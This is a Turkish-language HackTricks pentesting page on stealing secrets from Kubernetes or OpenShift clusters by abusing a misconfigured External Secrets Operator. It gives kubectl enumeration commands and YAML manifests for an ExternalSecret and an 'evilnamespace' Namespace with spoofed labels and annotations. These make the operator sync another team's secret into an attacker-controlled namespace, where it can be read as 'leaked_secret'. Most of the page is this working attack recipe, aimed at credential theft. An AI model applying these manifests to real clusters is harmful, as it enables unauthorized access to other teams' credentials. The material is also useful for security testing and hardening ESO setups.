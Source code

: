# External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Bu sayfanın orijinal yazarı** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Bu sayfa, yanlış yapılandırılmış bir ESO veya ESO'yu kullanarak gizli bilgilerini senkronize eden bir uygulamadan gizli bilgileri nasıl çalabileceğinize dair bazı ipuçları vermektedir.

## Disclaimer

Aşağıda gösterilen teknik yalnızca belirli koşullar sağlandığında çalışabilir. Örneğin, bir gizli bilginin sahip olduğunuz / ele geçirdiğiniz bir ad alanında senkronize edilmesine izin veren gereksinimlere bağlıdır. Bunu kendiniz çözmeniz gerekecek.

## Prerequisites

1. Bir kubernetes / openshift kümesinde bir ad alanında yönetici ayrıcalıkları ile bir yerleşim
2. Küme düzeyinde en azından ExternalSecret üzerinde okuma erişimi
3. ESO'nun gizli bilginizi senkronize etmesine izin veren gerekli etiketler / açıklamalar veya grup üyeliği olup olmadığını belirleyin. Şanslıysanız, tanımlı herhangi bir gizli bilgiyi özgürce çalabilirsiniz.

### Gathering information about existing ClusterSecretStore

Yeterli haklara sahip bir kullanıcınız olduğunu varsayarak; öncelikle mevcut _**ClusterSecretStores**_ listesini çıkararak başlayın.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Bir ClusterSecretStore adında _**mystore**_ bulduğunuzu varsayalım. İlgili externalsecret'leri listelemeye devam edin.
```sh
kubectl get externalsecret -A | grep mystore
```
_Bu kaynak, ad alanı kapsamlıdır, bu nedenle hangi ad alanında arama yapacağınızı bilmiyorsanız, tüm ad alanlarında arama yapmak için -A seçeneğini ekleyin._

Tanımlı externalsecret'lerin bir listesini almalısınız. _**mysecret**_ adında bir externalsecret nesnesi bulduğunuzu varsayalım ve bu nesne _**mynamespace**_ ad alanında tanımlanmış ve kullanılıyor. Hangi türde bir gizli bilgi içerdiği hakkında biraz daha bilgi toplayın.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Parçaları Birleştirme

Buradan bir veya birden fazla gizli adın (Secret kaynağında tanımlandığı gibi) adını alabilirsiniz. Çıktınız şu şekilde olacaktır:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Şu ana kadar şunları aldık:

- Bir ClusterSecretStore adı
- Bir ExternalSecret adı
- Sırrın adı

Artık ihtiyacımız olan her şeye sahip olduğumuza göre, bir ExternalSecret oluşturabilirsiniz (ve sonunda yeni sırrınızın senkronize edilmesi için gereken ön koşullara uymak üzere yeni bir Namespace oluşturabilir/güncelleyebilirsiniz):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Birkaç dakika sonra, senkronizasyon koşulları sağlandıysa, ad alanınız içinde sızdırılan sırrı görebilmelisiniz.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referanslar

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
